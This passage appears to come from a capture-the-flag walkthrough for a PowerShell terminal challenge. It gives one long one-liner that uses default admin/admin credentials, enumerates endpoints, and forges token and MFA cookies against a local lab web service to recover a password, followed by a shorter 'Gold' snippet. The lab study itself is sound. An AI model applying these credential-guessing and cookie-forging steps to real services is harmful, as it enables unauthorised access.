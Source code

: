 ![](../../../Assets/images/act2/powershell/act-2-powershell-question-11-answer.png)
![](../../../Assets/images/act2/powershell/act-2-powershell-achievement-silver.png)

>[!NOTE]
>Nothing here requires you to solve these only after the question is prompted; so you could use 1 giant one liner that answers all the questions
>```powershell 
>Get-Content ./welcome.txt; Get-Content ./welcome.txt | Measure-Object -Word; Invoke-WebRequest -Uri "http://127.0.0.1:1225" -Method Get; $User="admin"; $Pass=ConvertTo-SecureString "admin" -AsPlainText -Force; +$Creds=New-Object System.Management.Automation.PSCredential($User, $Pass); Invoke-WebRequest -Uri "http://127.0.0.1:1225" -Method Get -Credential $Creds -AllowUnencryptedAuthentication; $r=Invoke-WebRequest -Uri "http://127.0.0.1:1225" -Method Get -Credential $Creds -AllowUnencryptedAuthentication; Write-Output $r.Content; Write-Output $r.Links; $BaseUrl="http://127.0.0.1:1225"; for($i=1;$i-le50;$i++){ $Endpoint="$BaseUrl/endpoints/$i"; try{$Response=Invoke-WebRequest -Uri $Endpoint -Method Get; $WordCount=($Response.Content -split '\s+').Count; if($WordCount -eq 138){Write-Output "Match found at $Endpoint with $WordCount words."; break;} else{Write-Output "Checked $Endpoint - Word Count: $WordCount";}} catch{Write-Output "Error accessing $Endpoint : $($_.Exception.Message)";}}; $r=Invoke-WebRequest -Uri "http://127.0.0.1:1225/endpoints/13" -Method Get -Credential $Creds -AllowUnencryptedAuthentication; Write-Output $r.Content; $r=Invoke-WebRequest -Uri "http://127.0.0.1:1225/token_overview.csv" -Method Get -Credential $Creds -AllowUnencryptedAuthentication; Write-Output $r.Content; Invoke-WebRequest -Uri "http://127.0.0.1:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C" -Method Get -Credential $Creds -AllowUnencryptedAuthentication; $WebSession=New-Object Microsoft.PowerShell.Commands.WebRequestSession; $WebSession.Cookies.Add((New-Object System.Net.Cookie("token","5f8dd236f862f4507835b0e418907ffc","/","127.0.0.1"))); $r=Invoke-WebRequest -Uri "http://127.0.0.1:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C" -Method Get -Credential $Creds -AllowUnencryptedAuthentication -WebSession $WebSession; Write-Output $r.Content; $WebSession.Cookies.Add((New-Object System.Net.Cookie("mfa_token","1732141595.5882165","/","127.0.0.1"))); $response=Invoke-WebRequest -Uri "http://127.0.0.1:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C" -Method Get -Credential $Creds -AllowUnencryptedAuthentication -WebSession $WebSession; $mfaHref=($response.Links|Where-Object{ $_.outerHTML -like "*mfa_validate*"}).href; Write-Output "value: $mfaHref"; $WebSession.Cookies.Add((New-Object System.Net.Cookie("mfa_token",$mfaHref,"/","127.0.0.1"))); $r=Invoke-WebRequest -Uri "http://127.0.0.1:1225/mfa_validate/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C" -Method Get -Credential $Creds -AllowUnencryptedAuthentication -WebSession $WebSession; Write-Output $r.Content; [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("Q29ycmVjdCBUb2tlbiBzdXBwbGllZCwgeW91IGFyZSBncmFudGVkIGFjY2VzcyB0byB0aGUgc25vdyBjYW5ub24gdGVybWluYWwuIEhlcmUgaXMgeW91ciBwZXJzb25hbCBwYXNzd29yZCBmb3IgYWNjZXNzOiBTbm93TGVvcGFyZDJSZWFkeUZvckFjdGlvbg=="));

### Gold
```powershell
$User = "admin"; $Pass = ConvertTo-SecureString "admin" -AsPlainText -Force; $Creds = New-Object System.Management.Automation.PSCredential ($User, $Pass);
$r = Invoke-WebRequest -Uri "http://127.0.0.1:1225/token_overview.csv" -Method Get -Credential $Creds -AllowUnencryptedAuthentication; Write-Output $r.Content > hashes.txt

Get-Content hashes.txt | Where { $_ -notmatch "^#" } | Set-Content hashes_only.txt
Remove-Item hashes.txt
Rename-Item hashes_only.txt hashes.txt
```

